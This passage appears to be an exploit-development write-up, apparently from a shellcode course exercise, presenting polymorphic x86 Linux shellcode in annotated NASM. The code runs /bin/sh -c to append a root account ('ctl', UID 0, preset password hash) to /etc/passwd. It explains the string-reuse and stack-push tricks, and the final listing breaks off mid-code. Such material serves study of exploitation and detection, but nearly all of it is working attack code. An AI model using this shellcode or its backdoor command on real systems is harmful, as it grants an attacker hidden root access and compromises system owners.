 #### argv[2] - Arguements to Flag
```nasm
  mov byte [esi +61], al    ; Null byte to terminate string
                            ;  "/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
  lea ebx, [esi +3]         ; move pointer to string "/bin/echo..." into ebx register
  push ebx                  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
```

#### argv[1] - Flag of Program
```nasm
  mov byte [esi +2], al     ; Null byte to terminate string "-c"
  lea ebx, [esi]            ; move pointer to string "-c" into ebx register
  push ebx                  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
```

#### argv[0] - Pointer to Program Path
```nasm
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
snip--
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
  push ebx                  ; argv[] array start. Memory pointer to string "/bin/sh"
snip--
  mov ecx, esp              ; point ecx to top of stack
```

### Reuse the "/bin//sh" in the string memory
+ Since the string already has `/bin//sh` the leading `/bin//sh` was deleted.
  - This memory location of `/bin//sh` in the string was used to fufill the `ebx` register.
+ The string was changed from "/bin/sh" to "/bin//sh"
  - This way it fits into 2 `DWORD`s.
  - These `DWORD`s were pushed on to the stack.

```nasm
  xor eax, eax              ; clear out eax register
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
snip--
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
```

## Final Polymorphic Shellcode
```nasm
global _start
section .text
_start:
  jmp short jmp2call        ; jump2call so we can get the string location on the stack.
string2stack:
  pop esi                   ; pop memory location of string "/bin/sh#-c#/bin/echo.." into esi
  xor eax, eax              ; clear out eax register
  push eax                  ; push to null terminator for string "/bin//sh" on the stack.
  lea edx, [esp]            ; fill edx with pointer to null dword
  push dword [esi +42]      ; push "//sh" onto the stack.
  push dword [esi +38]      ; push "/bin" onto the stack.
  lea ecx, [esp]            ; save for later for ebx
  mov byte [esi +2], al     ; Null byte to terminate string "-c"
  mov byte [esi +61], al    ; Null byte to terminate string
                            ;  "/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
  push eax                  ; push to stack argv[] Null dword array terminator.
  lea ebx, [esi +3]         ; move pointer to string "/bin/echo..." into ebx register
  push ebx                  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
```